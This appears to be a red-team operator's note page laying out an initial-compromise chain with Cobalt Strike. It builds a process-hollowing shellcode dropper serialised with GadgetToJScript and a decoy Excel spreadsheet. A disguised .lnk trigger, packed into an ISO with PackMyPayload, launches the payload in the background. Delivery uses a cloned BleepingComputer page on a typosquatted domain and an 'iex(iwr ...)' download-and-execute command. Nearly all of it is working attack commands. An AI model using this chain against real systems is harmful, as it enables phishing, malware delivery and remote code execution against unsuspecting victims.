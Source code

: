 
#### Dropper

1. Make directory for dependencies for infection chain
2. Create a Visual Studio **Class Library (.NET Framework)**

> Place in the same directory: Checked

3. Add _**http_x64.xprocess.bin**_ (shellcode) as an embedded resource.
	1. Right-click on the project in the Solution Explorer and go to **Add > Existing Item**.  
	2. Select a payload file to embed in the dropper, e.g. `http_x64.exe`
	3. Then in its properties, change the **Build Action** to **Embedded Resource**.

4. Use the linked process hollowing dropper [source code](obsidian://open?vault=Offensive%20Security&file=root%2FRed%20Teaming%2FCobalt%20Strike%20Assumed%20Breach%2F1.%20Initial%20Compromise%2FFoothold%20Establishment%2FDroppers%2FProcess%20Hollowing%20Dropper) in Class1.cs
5. Build the project to a DLL in Release mode.

6. Serialise the DLL using G2JS.
```powershell
C:\Tools\GadgetToJScript\GadgetToJScript\bin\Release\GadgetToJScript.exe -a C:\Users\Attacker\source\repos\MyDropper\bin\Release\MyDropper.dll -w js -b -o C:\Payloads\deals\deals
```

#### Decoy, Trigger, Container

 > & 'C:\Program Files\Microsoft Office\Office16\OSPPREARM.EXE'
1. Create decoy Excel spreadsheet file and save in deals directory

> **Remove the authors from the document**

```xml
id  product      discount  code
1   Prodder      56%       54473-150
2   Viva         9%        0378-5713
3   Aerified     22%       43742-0187
4   Zaam-Dox     26%       35356-687
5   Rank         41%       63323-300
6   Pannier      61%       50804-302
7   Wrapsafe     32%       67046-223
8   Voltsillam   58%       55910-721
9   Ventosanzap  4%        0485-0051
10  Otcom        54%       36987-2281
```

2.  Create new `.lnk` file with the following

>  This will start command prompt, open the decoy and start payload in background

```powershell
$wsh = New-Object -ComObject WScript.Shell
$lnk = $wsh.CreateShortcut("C:\Payloads\deals\deals.xlsx.lnk")
$lnk.TargetPath = "%COMSPEC%"
$lnk.Arguments = "/C start deals.xlsx && wscript deals.js"
$lnk.IconLocation = "%ProgramFiles%\Microsoft Office\root\Office16\EXCEL.EXE,0"
$lnk.Save()


$wsh = New-Object -ComObject WScript.Shell
$lnk = $wsh.CreateShortcut("C:\Payloads\deals\deals.xlsx.lnk")
$lnk.TargetPath = "%COMSPEC%"
$lnk.Arguments = "/C start deals.xlsx && deals.exe"
$lnk.IconLocation = "%ProgramFiles%\Microsoft Office\root\Office16\EXCEL.EXE,0"
$lnk.Save()
```

3. In a wsl shell use PackMyPayload to  pack the files into an `iso`.

> Hide the decoy and payload. Only show trigg‌er

```bash
python3 /mnt/c/Tools/PackMyPayload/PackMyPayload.py -H deals.xlsx,deals.js /mnt/c/Payloads/deals/ /mnt/c/Payloads/deals/deals.iso
```

#### Delivery
1. Host the ISO on Cobalt Strike's built-in web server.
	1.  Go to **Site Management > Host File**.
	2.  File: C:\Payloads\deals\deals.iso
	3.  Local URI: /deals.iso
	4.  Local Host: www.bleepincomputer.com
	5.  Click **Launch**.
![[Pasted image 20250702212549.png]]

2. Clone a legitimate web page (**Site Management > Clone Site**).
	1.  Clone URL: https://deals.bleepingcomputer.com
	2.  Local URI: /deals
	3.  Local Host: www.bleepincomputer.com
	4.  Attack: _deals.iso_
	5.  Click **Clone**.
![[Pasted image 20250702212802.png]]

```
iexplore http://www.bleepincomputer.com:80/deals
```

```powershell
iex(iwr "http://www.bleepincomputer.com/demo" -useb)
```